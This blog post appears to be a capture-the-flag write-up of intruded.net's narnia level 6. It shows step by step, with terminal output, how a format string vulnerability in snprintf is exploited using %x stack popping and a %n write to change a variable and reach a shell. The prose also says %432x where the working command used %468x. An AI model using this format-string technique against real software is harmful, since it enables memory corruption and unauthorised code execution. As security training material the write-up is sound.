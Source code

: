 Title: intruded.net, narnia: level 6
Date: 2011/09/22 22:16
Tags: intruded.net, narnia, x86, stack, printf
Author: Ken Ko

This time it <em>definitely</em> was a string format vulnerability:

<code>
snprintf(buffer, sizeof buffer, argv[1]);
</code>

So first, let's try to find out how far the format string is on the stack from the stack pointer--I think it's referred to as 'stack popping'. Anyhow, we'll end up with this after a bit of brute force:

<code>
level6@narnia:/wargame$ ./level6 AAAA%x.%x.%x.%x.%x.%x.
Change i's value from 1 -&gt; 500. No way...let me give you a hint!
buffer : [AAAA177ff8e.1000000.0.28000000.656e6f6e.41414141.] (49)
i = 1 (0xbffffa4c)
</code>

So we know we need 6 bytes, or pops, to see the value of the memory address at the initial 'AAAA'. We'll need to replace the last with a %n, and eventually print <strong>%10x</strong> for the last <strong>%x</strong>.

<code>
level6@narnia:/wargame$ ./level6 `python -c 'print "\x4c\xfa\xff\xbf"'`%x.%x.%x.%x.%10x.%n
Change i's value from 1 -&gt; 500. No way...let me give you a hint!
buffer : [Lúÿ¿177ff8e.1000000.0.28000000. 656e6f6e.] (42)
i = 42 (0xbffffa4c)
</code>

Cool. Now, let's do some math and make i = 500.

<code>
level6@narnia:/wargame$ ./level6 `python -c 'print "\x4c\xfa\xff\xbf"'`%x.%x.%x.%x.%400x.%n
Change i's value from 1 -&gt; 500. No way...let me give you a hint!
buffer : [Lúÿ¿177ff8e.1000000.0.28000000. ] (63)
i = 432 (0xbffffa4c)
level6@narnia:/wargame$
level6@narnia:/wargame$ ./level6 `python -c 'print "\x4c\xfa\xff\xbf"'`%x.%x.%x.%x.%468x.%n
Change i's value from 1 -&gt; 500. GOOD
sh-3.1$
</code>

Awesome possum.

On the stack, we should have something similar to:

[codebox 1]

<strong>Note</strong>: Our %s is from the "I'll help you by showing you your buffer!" printf() a few lines below the snprintf.

Because our buffer started with AAAA, that's what's printed out when we finally have the correct amount of pops of the stack. So, rather than printing out 'AAAA', we want to move the pointer to the value held in memory location 0xbffffa4c. That's a simple replace and reordering for Intel's little endian.

Next we use %432x.%n to write a total of 500 to the memory location which modifies the value of i. Something I don't use very often is this nifty trick:

<code>
int i;
printf("1234567890%n", &amp;i);
</code>

This will write the value 10 into i. That is, it's similar to the following:

<code>
i = 10;
</code>

I suppose it's more useful in dynamically changing the value of i, if you wish.

Anyhow, that's about it.
